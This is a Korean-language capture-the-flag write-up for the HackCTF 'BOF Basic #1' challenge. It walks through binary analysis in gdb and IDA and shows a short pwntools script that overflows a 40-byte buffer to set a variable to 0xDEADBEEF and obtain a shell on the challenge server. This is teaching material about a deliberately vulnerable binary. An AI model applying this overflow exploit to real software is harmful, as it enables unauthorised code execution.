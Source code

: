 ```yaml
---
title:  "[HackCTF] BOF Basic #1 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #1 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-0.png)
```
Get Input Buffer
Print You are on the right way! 또는 eah dude! You win!
```

요약: `bof_basic`, `nc ctf.j0n9hyun.xyz 3000` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-1.png)

![](/assets/HCTF/bof_basic-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# 풀이
![](/assets/HCTF/bof_basic-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-4.png)

main func를 우선 분석 살펴봄. `fgets`로 String 입려 받고, `0xdeadbeef` 와 `cmp` (Compare) 와 `jne` (Jump Not Equal)로 값 비교 후 일치 하지 않는 경우 `0x804857c`로 Jump 한다. 그렇다면 값이 Equal 하다면 순차적으로 진행된다는 뜻.

![](/assets/HCTF/bof_basic-5.png)

IDA를 통해 Static Analysis 시도. `jne` 할 경우 (10번째 행) "You are on the right way!" 라는 메시지가 반겨줌.

또한 `cmp` 대상인 0xDEADBEEF 확인. 따라서 입력 값을 0xDEADBEEF 로 설정할 경우 `system("/bin/bash");` 를 호출 가능

3번째 행으로부터 char 형 배열 s를 40의 길이로 선언한 것 확인. 메모리 주소가 [esp+4]. 사용자로부터 입력 받는 값인 int 형 v5의 경우 메모리 주소가 [esp+44]. 하지만 7행을 보자면 fgets를 통해 최대 문자열 길이를 45까지 입력이 가능 한 것을 확인 가능.

이를 이용해 s를 40 바이트로 채우고 BOF시켜 뒤에 `0xDEADBEEF` 를 넣을 경우 v5가 `0xDEADBEEF` 로 Overwrite.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 40 + p32(0xDEADBEEF)
```

# Exploit Code
```
from pwn import *
context.log_level = DEBUG # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3000)
payload = "Z" * 40 + p32(0xDEADBEEF)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-6.png)